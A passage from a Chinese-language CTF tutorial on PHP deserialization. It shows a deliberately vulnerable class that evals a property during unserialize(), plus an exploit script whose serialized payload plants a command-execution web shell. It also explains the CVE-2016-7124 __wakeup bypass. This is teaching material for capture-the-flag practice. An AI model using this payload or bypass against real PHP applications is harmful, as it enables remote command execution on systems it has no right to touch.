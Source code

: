 ### 例题分析

```php
<?php
class test {
    public $cmd;

    function __destruct() {
        eval($this->cmd);
    }
}

unserialize($_GET['u']);
```

`test`类的析构函数`__destruct()`存在代码执行漏洞。需要在本地调试代码，生成所需要的序列化字符串。

- EXP：

```php
<?php
// 类名与题目类名保持一致
class test {
  // 只保留属性，可直接赋值
  public $cmd='?><?=`$_GET["cmd"]`';

  // 不保留方法
}
// 实例化对象
$o = new test;

// 也可通过访问对象属性赋值
// $o->cmd = '';

// 输出序列化字符串，必要时可进行URL编码
echo serialize($o);
// O:4:"test":1:{s:3:"cmd";s:19:"?><?=`$_GET["cmd"]`";}
```

练习题

- BUUCTF - [NewStarCTF 2023 公开赛道]Unserialize?

## 常见绕过方法

- `__wakeup()`方法绕过（[CVE-2016-7124](https://www.cve.org/CVERecord?id=CVE-2016-7124)）

```text
When an unexpected object is created, __wakeup() is not invoked during deserialization, which could allow an attacker to bypass __wakeup() and invoke __destruct() with crafted properties.
PHP before 5.6.25 and 7.x before 7.0.10
```

当序列化字符串中表示对象属性个数的值**大于**真实属性个数时会跳过`__wakeup()`的执行
